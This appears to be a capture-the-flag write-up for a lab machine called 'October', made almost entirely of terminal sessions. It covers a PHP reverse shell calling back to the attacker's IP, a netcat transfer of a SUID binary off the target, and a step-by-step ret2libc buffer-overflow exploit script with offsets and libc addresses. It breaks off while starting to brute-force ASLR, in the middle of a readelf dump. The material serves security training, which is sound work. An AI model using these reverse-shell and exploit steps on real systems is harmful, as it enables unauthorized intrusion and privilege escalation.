root@kali:~/october/php-reverse-shell-1.0# nano php-reverse-shell.php
root@kali:~/october/php-reverse-shell-1.0# mv php-reverse-shell.php php-reverse-shell.php5
root@kali:~/october/php-reverse-shell-1.0# ls -l php-reverse-shell.php5
-rwx------ 1 1000 1004 5492 Feb  1 13:30 php-reverse-shell.php5
root@kali:~/october/php-reverse-shell-1.0#
```

```php
$ip = '10.10.14.8';  // CHANGE THIS
$port = 8081;       // CHANGE THIS
```







```sh
root@kali:~/october# nc -nlvp 8081
listening on [any] 8081 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.16] 53772
Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 i686 i686 GNU/Linux
 20:33:00 up 3 days, 19:56,  0 users,  load average: 21.38, 19.89, 12.72
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@october:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/umount
/bin/ping
/bin/fusermount
/bin/su
/bin/ping6
/bin/mount
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/mtr
/usr/bin/chsh
/usr/bin/at
/usr/sbin/pppd
/usr/sbin/uuidd
/usr/local/bin/ovrflw
www-data@october:/$
www-data@october:/$ nc -w 5 10.10.14.8 999 < /usr/local/bin/ovrflw
nc -w 5 10.10.14.8 999 < /usr/local/bin/ovrflw
www-data@october:/$
www-data@october:/$ md5sum /usr/local/bin/ovrflw
md5sum /usr/local/bin/ovrflw
0e531949d891fd56a2ead07610cc5ded  /usr/local/bin/ovrflw
www-data@october:/$
```

###### Buffer Overflow

```sh
root@kali:~/october/vanilla# nc -l -p 999 > ovrflw
root@kali:~/october/vanilla# ls -l ovrflw
-rw-r--r-- 1 root root 7377 Feb  1 13:39 ovrflw
root@kali:~/october/vanilla#
root@kali:~/october/vanilla# md5sum ovrflw
0e531949d891fd56a2ead07610cc5ded  ovrflw
root@kali:~/october/vanilla#
```

```sh
www-data@october:/$ uname -a
uname -a
Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 i686 i686 GNU/Linux
www-data@october:/$ cat /etc/lsb-release
cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
www-data@october:/$
```

```sh
root@kali:~/october# uname -a
Linux kali 4.14.0-kali3-686-pae #1 SMP Debian 4.14.12-2kali2 (2018-01-11) i686 GNU/Linux
root@kali:~/october#
root@kali:~/october# cat /etc/lsb-release
DISTRIB_ID=Kali
DISTRIB_RELEASE=kali-rolling
DISTRIB_CODENAME=kali-rolling
DISTRIB_DESCRIPTION="Kali GNU/Linux Rolling"
root@kali:~/october#
```

```sh
root@kali:~/october# chmod +x ovrflw
root@kali:~/october# ./ovrflw
Syntax: ./ovrflw <input string>
root@kali:~/october# ./ovrflw aaa
root@kali:~/october# ./ovrflw `python -c "print 'A'*200"`
Segmentation fault
root@kali:~/october#
```

```sh
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

```sh
u32@vm:~$ gdb ./ovrflw -q
Reading symbols from ./ovrflw...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x8048480
gdb-peda$ r
Starting program: /home/u32/ovrflw
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0xb7fc0000 --> 0x1aada8
ECX: 0x5e4195d3
EDX: 0xbffff704 --> 0xb7fc0000 --> 0x1aada8
ESI: 0x0
EDI: 0x0
EBP: 0xbffff6d8 --> 0x0
ESP: 0xbffff6d8 --> 0x0
EIP: 0x8048480 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048478 <frame_dummy+40>:	jmp    0x80483f0 <register_tm_clones>
   0x804847d <main>:	push   ebp
   0x804847e <main+1>:	mov    ebp,esp
=> 0x8048480 <main+3>:	and    esp,0xfffffff0
   0x8048483 <main+6>:	add    esp,0xffffff80
   0x8048486 <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x804848a <main+13>:	jg     0x80484ad <main+48>
   0x804848c <main+15>:	mov    eax,DWORD PTR [ebp+0xc]
[------------------------------------stack-------------------------------------]
0000| 0xbffff6d8 --> 0x0
0004| 0xbffff6dc --> 0xb7e2eaf3 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
0008| 0xbffff6e0 --> 0x1
0012| 0xbffff6e4 --> 0xbffff774 --> 0xbffff8a9 ("/home/u32/ovrflw")
0016| 0xbffff6e8 --> 0xbffff77c --> 0xbffff8ba ("XDG_SESSION_ID=2")
0020| 0xbffff6ec --> 0xb7feccca (<call_init+26>:	add    ebx,0x12336)
0024| 0xbffff6f0 --> 0x1
0028| 0xbffff6f4 --> 0xbffff774 --> 0xbffff8a9 ("/home/u32/ovrflw")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048480 in main ()
gdb-peda$ r `python -c "print 'A'*200"`
Starting program: /home/u32/ovrflw `python -c "print 'A'*200"`
[----------------------------------registers-----------------------------------]
EAX: 0x2
EBX: 0xb7fc0000 --> 0x1aada8
ECX: 0xb8709f8f
EDX: 0xbffff644 --> 0xb7fc0000 --> 0x1aada8
ESI: 0x0
EDI: 0x0
EBP: 0xbffff618 --> 0x0
ESP: 0xbffff618 --> 0x0
EIP: 0x8048480 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048478 <frame_dummy+40>:	jmp    0x80483f0 <register_tm_clones>
   0x804847d <main>:	push   ebp
   0x804847e <main+1>:	mov    ebp,esp
=> 0x8048480 <main+3>:	and    esp,0xfffffff0
   0x8048483 <main+6>:	add    esp,0xffffff80
   0x8048486 <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x804848a <main+13>:	jg     0x80484ad <main+48>
   0x804848c <main+15>:	mov    eax,DWORD PTR [ebp+0xc]
[------------------------------------stack-------------------------------------]
0000| 0xbffff618 --> 0x0
0004| 0xbffff61c --> 0xb7e2eaf3 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
0008| 0xbffff620 --> 0x2
0012| 0xbffff624 --> 0xbffff6b4 --> 0xbffff7e0 ("/home/u32/ovrflw")
0016| 0xbffff628 --> 0xbffff6c0 --> 0xbffff8ba ("XDG_SESSION_ID=2")
0020| 0xbffff62c --> 0xb7feccca (<call_init+26>:	add    ebx,0x12336)
0024| 0xbffff630 --> 0x2
0028| 0xbffff634 --> 0xbffff6b4 --> 0xbffff7e0 ("/home/u32/ovrflw")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048480 in main ()
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xb7fc0000 --> 0x1aada8
ECX: 0xbffff8b0 ("AAAAAAAAA")
EDX: 0xbffff66b ("AAAAAAAAA")
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff620 ('A' <repeats 84 times>)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff620 ('A' <repeats 84 times>)
0004| 0xbffff624 ('A' <repeats 80 times>)
0008| 0xbffff628 ('A' <repeats 76 times>)
0012| 0xbffff62c ('A' <repeats 72 times>)
0016| 0xbffff630 ('A' <repeats 68 times>)
0020| 0xbffff634 ('A' <repeats 64 times>)
0024| 0xbffff638 ('A' <repeats 60 times>)
0028| 0xbffff63c ('A' <repeats 56 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$
```

```sh
root@kali:~/october# gdb ./ovrflw -q
Reading symbols from ./ovrflw...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

```sh
www-data@october:/usr/local/bin$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75f2000)
www-data@october:/usr/local/bin$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7633000)
www-data@october:/usr/local/bin$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75df000)
www-data@october:/usr/local/bin$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75f3000)
www-data@october:/usr/local/bin$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7637000)
www-data@october:/usr/local/bin$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b5000)
www-data@october:/usr/local/bin$
```

```sh
root@kali:~/october# ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7d4b000)
root@kali:~/october# ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7d1b000)
root@kali:~/october# ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7d7a000)
root@kali:~/october# ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7cf0000)
root@kali:~/october#
root@kali:~/october# echo 0 > /proc/sys/kernel/randomize_va_space
root@kali:~/october#
root@kali:~/october# ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7dd0000)
root@kali:~/october# ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7dd0000)
root@kali:~/october# ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7dd0000)
root@kali:~/october# ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7dd0000)
root@kali:~/october#
```

```sh
root@kali:~/october# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
root@kali:~/october#
```

```sh
u32@vm:~$ gdb ./ovrflw -q
Reading symbols from ./ovrflw...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x8048480
gdb-peda$ r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/u32/ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
[----------------------------------registers-----------------------------------]
EAX: 0x2
EBX: 0xb7fc0000 --> 0x1aada8
ECX: 0x53ceb022
EDX: 0xbffff644 --> 0xb7fc0000 --> 0x1aada8
ESI: 0x0
EDI: 0x0
EBP: 0xbffff618 --> 0x0
ESP: 0xbffff618 --> 0x0
EIP: 0x8048480 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048478 <frame_dummy+40>:	jmp    0x80483f0 <register_tm_clones>
   0x804847d <main>:	push   ebp
   0x804847e <main+1>:	mov    ebp,esp
=> 0x8048480 <main+3>:	and    esp,0xfffffff0
   0x8048483 <main+6>:	add    esp,0xffffff80
   0x8048486 <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x804848a <main+13>:	jg     0x80484ad <main+48>
   0x804848c <main+15>:	mov    eax,DWORD PTR [ebp+0xc]
[------------------------------------stack-------------------------------------]
0000| 0xbffff618 --> 0x0
0004| 0xbffff61c --> 0xb7e2eaf3 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
0008| 0xbffff620 --> 0x2
0012| 0xbffff624 --> 0xbffff6b4 --> 0xbffff7e0 ("/home/u32/ovrflw")
0016| 0xbffff628 --> 0xbffff6c0 --> 0xbffff8ba ("XDG_SESSION_ID=2")
0020| 0xbffff62c --> 0xb7feccca (<call_init+26>:	add    ebx,0x12336)
0024| 0xbffff630 --> 0x2
0028| 0xbffff634 --> 0xbffff6b4 --> 0xbffff7e0 ("/home/u32/ovrflw")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048480 in main ()
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xb7fc0000 --> 0x1aada8
ECX: 0xbffff8b0 ("3Ag4Ag5Ag")
EDX: 0xbffff66b ("3Ag4Ag5Ag")
ESI: 0x0
EDI: 0x0
EBP: 0x41366441 ('Ad6A')
ESP: 0xbffff620 ("8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
EIP: 0x64413764 ('d7Ad')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x64413764
[------------------------------------stack-------------------------------------]
0000| 0xbffff620 ("8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0004| 0xbffff624 ("Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0008| 0xbffff628 ("e1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0012| 0xbffff62c ("2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0016| 0xbffff630 ("Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0020| 0xbffff634 ("e5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0024| 0xbffff638 ("6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0028| 0xbffff63c ("Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x64413764 in ?? ()
gdb-peda$
```

```sh
root@kali:~/october# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 64413764
[*] Exact match at offset 112
root@kali:~/october#
```

```sh
root@kali:~/october# nano buf-over.py
root@kali:~/october# cat buf-over.py
import struct

buf = "A" * 112
buf += struct.pack("<I",0xd3adc0d3)

print buf
root@kali:~/october#
```

```sh
u32@vm:~$ gdb ./ovrflw -q
Reading symbols from ./ovrflw...(no debugging symbols found)...done.
gdb-peda$ r `python buf-over.py`
Starting program: /home/u32/ovrflw `python buf-over.py`

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xb7fc0000 --> 0x1aada8
ECX: 0xbffff8b0 ("AAAAA\323\300\255", <incomplete sequence \323>)
EDX: 0xbffff667 ("AAAAA\323\300\255", <incomplete sequence \323>)
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff670 --> 0x0
EIP: 0xd3adc0d3
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xd3adc0d3
[------------------------------------stack-------------------------------------]
0000| 0xbffff670 --> 0x0
0004| 0xbffff674 --> 0xbffff704 --> 0xbffff834 ("/home/u32/ovrflw")
0008| 0xbffff678 --> 0xbffff710 --> 0xbffff8ba ("XDG_SESSION_ID=2")
0012| 0xbffff67c --> 0xb7feccca (<call_init+26>:	add    ebx,0x12336)
0016| 0xbffff680 --> 0x2
0020| 0xbffff684 --> 0xbffff704 --> 0xbffff834 ("/home/u32/ovrflw")
0024| 0xbffff688 --> 0xbffff6a4 --> 0x5188a7e1
0028| 0xbffff68c --> 0x804a01c --> 0xb7e2ea00 (<__libc_start_main>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xd3adc0d3 in ?? ()
gdb-peda$
```

```sh
u32@vm:~$ gdb ./ovrflw -q
Reading symbols from ./ovrflw...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x8048480
gdb-peda$ r
Starting program: /home/u32/ovrflw
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0xb7fc0000 --> 0x1aada8
ECX: 0xf3233497
EDX: 0xbffff704 --> 0xb7fc0000 --> 0x1aada8
ESI: 0x0
EDI: 0x0
EBP: 0xbffff6d8 --> 0x0
ESP: 0xbffff6d8 --> 0x0
EIP: 0x8048480 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048478 <frame_dummy+40>:	jmp    0x80483f0 <register_tm_clones>
   0x804847d <main>:	push   ebp
   0x804847e <main+1>:	mov    ebp,esp
=> 0x8048480 <main+3>:	and    esp,0xfffffff0
   0x8048483 <main+6>:	add    esp,0xffffff80
   0x8048486 <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x804848a <main+13>:	jg     0x80484ad <main+48>
   0x804848c <main+15>:	mov    eax,DWORD PTR [ebp+0xc]
[------------------------------------stack-------------------------------------]
0000| 0xbffff6d8 --> 0x0
0004| 0xbffff6dc --> 0xb7e2eaf3 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
0008| 0xbffff6e0 --> 0x1
0012| 0xbffff6e4 --> 0xbffff774 --> 0xbffff8a9 ("/home/u32/ovrflw")
0016| 0xbffff6e8 --> 0xbffff77c --> 0xbffff8ba ("XDG_SESSION_ID=2")
0020| 0xbffff6ec --> 0xb7feccca (<call_init+26>:	add    ebx,0x12336)
0024| 0xbffff6f0 --> 0x1
0028| 0xbffff6f4 --> 0xbffff774 --> 0xbffff8a9 ("/home/u32/ovrflw")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048480 in main ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e55310 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e48260 <__GI_exit>
gdb-peda$ searchmem /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f7584c ("/bin/sh")
gdb-peda$
```

```sh
u32@vm:~$ nano buf-over.py
u32@vm:~$ cat buf-over.py
import struct

system_addr = struct.pack("<I",0xb7e55310) # Address of system
exit_addr = struct.pack("<I",0xb7e48260)   # Address of exit
arg_addr = struct.pack("<I",0xb7f7584c)    # Address of /bin/sh

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr

print buf
u32@vm:~$
```

```sh
u32@vm:~$ ./ovrflw `python buf-over.py`
$ id
uid=1000(u32) gid=1000(u32) groups=1000(u32),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
$ ps
  PID TTY          TIME CMD
 5173 pts/0    00:00:00 bash
 5471 pts/0    00:00:00 ovrflw
 5472 pts/0    00:00:00 sh
 5473 pts/0    00:00:00 sh
 5475 pts/0    00:00:00 ps
$ exit
u32@vm:~$
```

```sh
u32@vm:~$ cat /proc/sys/kernel/randomize_va_space
0
u32@vm:~$ sudo nano /proc/sys/kernel/randomize_va_space
u32@vm:~$ cat /proc/sys/kernel/randomize_va_space
2
u32@vm:~$
```

```sh
u32@vm:~$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7635000)
u32@vm:~$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75ef000)
u32@vm:~$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb755d000)
u32@vm:~$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb755d000)
u32@vm:~$
```

```sh
u32@vm:~$ for i in `seq 0 20`; do ldd ovrflw | grep libc; done
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7539000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75e4000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb762c000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7616000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75cf000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb754d000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7586000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c8000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75a2000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7599000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7577000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb758e000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb758d000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7626000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75e4000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75f1000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75af000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c7000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7585000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7579000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d1000)
u32@vm:~$
```

###### Brute force ASLR

```sh
www-data@october:/$ cd /dev/shm
www-data@october:/dev/shm$ vi buf.py
www-data@october:/dev/shm$ cat buf.py
import struct

system_addr = struct.pack("<I",0xb7e55310) # Address of system
exit_addr = struct.pack("<I",0xb7e48260)   # Address of exit
arg_addr = struct.pack("<I",0xb7f7584c)    # Address of /bin/sh

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr

print buf
www-data@october:/dev/shm$ python buf.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAS�`��LX�
www-data@october:/dev/shm$
```

```sh
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7593000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7570000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb760c000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75aa000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7608000)
www-data@october:/dev/shm$
```

```
0xb7 593 000
0xb7 570 000
0xb7 60c 000
0xb7 5aa 000
0xb7 608 000
```

```sh
www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6

Symbol table '.dynsym' contains 2394 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
     0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND
     1: 00000000     0 OBJECT  GLOBAL DEFAULT  UND __libc_stack_end@GLIBC_2.1 (34)
     2: 00000000     0 OBJECT  GLOBAL DEFAULT  UND _rtld_global@GLIBC_PRIVATE (35)
     3: 00000000     0 OBJECT  GLOBAL DEFAULT  UND __libc_enable_secure@GLIBC_PRIVATE (35)
     4: 00000000     0 NOTYPE  WEAK   DEFAULT  UND _IO_stdin_used
     5: 00000000     0 OBJECT  GLOBAL DEFAULT  UND _rtld_global_ro@GLIBC_PRIVATE (35)
     6: 00000000     0 FUNC    GLOBAL DEFAULT  UND _dl_find_dso_for_object@GLIBC_PRIVATE (35)
     7: 00000000     0 NOTYPE  WEAK   DEFAULT  UND _dl_starting_up
     8: 00000000     0 FUNC    GLOBAL DEFAULT  UND ___tls_get_addr@GLIBC_2.3 (36)
     9: 00000000     0 OBJECT  GLOBAL DEFAULT  UND _dl_argv@GLIBC_PRIVATE (35)
    10: 0006d920   253 FUNC    GLOBAL DEFAULT   12 putwchar@@GLIBC_2.2
    11: 00083d80    29 FUNC    GLOBAL DEFAULT   12 __strspn_c1@@GLIBC_2.1.1
    12: 000fd730    51 FUNC    GLOBAL DEFAULT   12 __gethostname_chk@@GLIBC_2.4
    13: 00083da0    42 FUNC    GLOBAL DEFAULT   12 __strspn_c2@@GLIBC_2.1.1
    14: 001033a0   176 FUNC    GLOBAL DEFAULT   12 setrpcent@@GLIBC_2.0
    15: 0009d610    56 FUNC    GLOBAL DEFAULT   12 __wcstod_l@@GLIBC_2.1
    16: 00083dd0    49 FUNC    GLOBAL DEFAULT   12 __strspn_c3@@GLIBC_2.1.1
    17: 000eec30    60 FUNC    GLOBAL DEFAULT   12 epoll_create@@GLIBC_2.3.2
    18: 000c52f0    60 FUNC    WEAK   DEFAULT   12 sched_get_priority_min@@GLIBC_2.0
    19: 000fd770    38 FUNC    GLOBAL DEFAULT   12 __getdomainname_chk@@GLIBC_2.4
    20: 000eef30    66 FUNC    GLOBAL DEFAULT   12 klogctl@@GLIBC_2.0
    21: 00027e00    15 FUNC    GLOBAL DEFAULT   12 __tolower_l@@GLIBC_2.1
    22: 0004d4f0    48 FUNC    GLOBAL DEFAULT   12 dprintf@@GLIBC_2.0
    23: 000b9060   119 FUNC    WEAK   DEFAULT   12 setuid@@GLIBC_2.0
    24: 000a42c0  1963 FUNC    GLOBAL DEFAULT   12 __wcscoll_l@@GLIBC_2.1
    25: 000f2020   168 FUNC    WEAK   DEFAULT   12 iswalpha@@GLIBC_2.0
    26: 00104520    26 FUNC    GLOBAL DEFAULT   12 __internal_endnetgrent@@GLIBC_PRIVATE
    27: 000e6660    60 FUNC    GLOBAL DEFAULT   12 chroot@@GLIBC_2.0
    28: 000a9170    64 FUNC    GLOBAL DEFAULT   12 __gettimeofday@@GLIBC_2.0
    29: 0006de60    77 FUNC    GLOBAL DEFAULT   12 _IO_file_setbuf@@GLIBC_2.1
    30: 001adb44     4 OBJECT  WEAK   DEFAULT   32 daylight@@GLIBC_2.0
    31: 00129bf0    77 FUNC    GLOBAL DEFAULT   12 _IO_file_setbuf@GLIBC_2.0
    32: 000ac110    74 FUNC    GLOBAL DEFAULT   12 getdate@@GLIBC_2.1
